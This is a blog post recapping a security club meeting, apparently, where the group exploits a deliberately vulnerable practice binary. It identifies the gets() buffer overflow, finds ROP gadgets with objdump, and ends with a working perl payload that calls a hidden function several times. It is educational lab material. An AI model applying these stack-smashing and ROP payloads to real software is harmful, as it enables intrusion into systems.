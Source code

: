 ```yaml
---
author: barongearmu
comments: true
date: 2012-03-30 03:00:19+00:00
layout: post
slug: buffer-overflows-stack-smashing-aslr-rop
title: Buffer Overflows - Stack Smashing, ASLR, ROP
wordpress_id: 74
categories:
- Meeting Re-caps
tags:
- aslr
- binary
- buffer overflow
- flow of control
- ROP
- segmentation fault
- stack overflow
- stack smash
---
```


Kris wrote a clever program with some interesting constants inside to be able to illustrate all of these concepts in a single binary. There are several things you can do here.

Basic stack overflow. Get the program to call a function that is compiled in, but not used in the standard flow of control. Then call it with appropriate arguments.

More advanced stack overflow, with ROP. Call the hidden function several times, with appropriate arguments each time.

Get shell on a system with ASLR, using the hidden constant.

???? Do something more awesome!!!!

Identify it

>>> file b2
b2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped

okay, 32-bit linux elf.

>>> strings b2
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
printf
__libc_start_main
GLIBC_2.0
PTRh@
UWVS
[^_]
WTF %d %d %d
Hello, %s!
What is your name?
;*2$"

looks like some format strings in there.

Run it:

>>>

>>>  ./b2
What is your name?
> hacker
Hello, hacker!

Break it:

>>> perl -e 'print "A"x400 ;' | ./b2
What is your name?
> Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Segmentation fault

Let's take an assembly listing of the interesting parts for future reference

>>> objdump -d -M intel b2

08048434 <wtf>:
8048434:       55                      push   ebp
8048435:       89 e5                   mov    ebp,esp
8048437:       83 ec 28                sub    esp,0x28
804843a:       c7 45 f4 0c ff e4 00    mov    DWORD PTR [ebp-0xc],0xe4ff0c
8048441:       b8 a0 85 04 08          mov    eax,0x80485a0
8048446:       8b 55 f4                mov    edx,DWORD PTR [ebp-0xc]
8048449:       89 54 24 0c             mov    DWORD PTR [esp+0xc],edx
804844d:       8b 55 0c                mov    edx,DWORD PTR [ebp+0xc]
8048450:       89 54 24 08             mov    DWORD PTR [esp+0x8],edx
8048454:       8b 55 08                mov    edx,DWORD PTR [ebp+0x8]
8048457:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
804845b:       89 04 24                mov    DWORD PTR [esp],eax
804845e:       e8 cd fe ff ff          call   8048330 <printf@plt>
8048463:       c9                      leave
8048464:       c3                      ret

08048465 <sayhello>:
8048465:       55                      push   ebp
8048466:       89 e5                   mov    ebp,esp
8048468:       81 ec e8 00 00 00       sub    esp,0xe8
804846e:       b8 ae 85 04 08          mov    eax,0x80485ae
8048473:       89 04 24                mov    DWORD PTR [esp],eax
8048476:       e8 b5 fe ff ff          call   8048330 <printf@plt>
804847b:       8d 85 30 ff ff ff       lea    eax,[ebp-0xd0]
8048481:       89 04 24                mov    DWORD PTR [esp],eax
8048484:       e8 b7 fe ff ff          call   8048340 <gets@plt>
8048489:       b8 b1 85 04 08          mov    eax,0x80485b1
804848e:       8d 95 30 ff ff ff       lea    edx,[ebp-0xd0]
8048494:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
8048498:       89 04 24                mov    DWORD PTR [esp],eax
804849b:       e8 90 fe ff ff          call   8048330 <printf@plt>
80484a0:       c9                      leave
80484a1:       c3                      ret

080484a2 <main>:
80484a2:       55                      push   ebp
80484a3:       89 e5                   mov    ebp,esp
80484a5:       83 e4 f0                and    esp,0xfffffff0
80484a8:       83 ec 10                sub    esp,0x10
80484ab:       c7 04 24 bd 85 04 08    mov    DWORD PTR [esp],0x80485bd
80484b2:       e8 99 fe ff ff          call   8048350 <puts@plt>
80484b7:       e8 a9 ff ff ff          call   8048465 <sayhello>
80484bc:       b8 00 00 00 00          mov    eax,0x0
80484c1:       c9                      leave
80484c2:       c3                      ret
80484c3:       90                      nop
80484c4:       90                      nop

We can see that this wtf function never gets called, as it has a print statement, but we never saw anything like that in our output.

sayhello has what looks like a ~200 byte buffer from

8048468:       81 ec e8 00 00 00       sub    esp,0xe8

and more importantly that it is using gets to read, which means we can put anything but nul chars into it, and it will read them into the buffer. This is our vulnerable code fragment!

Alright, now let's look at it in gdb.





Calling hidden WTF function with correct arguments multiple times.

** WTF with correct arguments
to call wtf more than once, with arguments, we need a 'cleanup' program
what this needs to do is move the stack pointer down two four-byte groups
so that we jump over the parameters to wtf. the return at the end of wtf,
and the 'cleanup' series, get's rid of the other two addresses.
Thus we can repeat that four four-byte sequence as many times as we want
(realistically until it segfaults from the initial overflow.)

*** finding rops
poor man's rop finder, using objdump and searching for pop,pop,ret sequence.

first

two pops and a return
8048402:       5b                      pop    ebx
8048403:       5d                      pop    ebp
8048404:       c3                      ret

four pops and a return
804852c:       5b                      pop    ebx
804852d:       5e                      pop    esi
804852e:       5f                      pop    edi
804852f:       5d                      pop    ebp

two pops and a return
8048577:       5b                      pop    ebx
8048578:       5d                      pop    ebp
8048579:       c3                      ret

** final exploit code.
REMEMBER: Addresses are little endian on x86

perl -e 'print "A"x212 . "\x34\x84\x04\x08" . "\x02\x84\x04\x08" . "\x00\x00\x00\x00" . "\xFF\xFF\xFF\xFF" \
. "\x34\x84\x04\x08" . "\x77\x85\x04\x08" . "\x00\x00\x00\x00" . "\xFF\xFF\xFF\xFF" \
. "\x34\x84\x04\x08" . "\x2e\x85\x04\x08" . "\x00\x00\x00\x00" . "\xFF\xFF\xFF\xFF" ;' | ./b2
|                        |                   ^ 0                  ^ -1
|                        ^ three different addresses with correct assembly instructions
^ start address of wtf

What is your name?
> Hello,                                                                                                                                                                                                                     4!
WTF 0 -1 15007500
WTF 0 -1 15007500
WTF 0 -1 15007500
Segmentation fault

Graceful termination is not the point here.
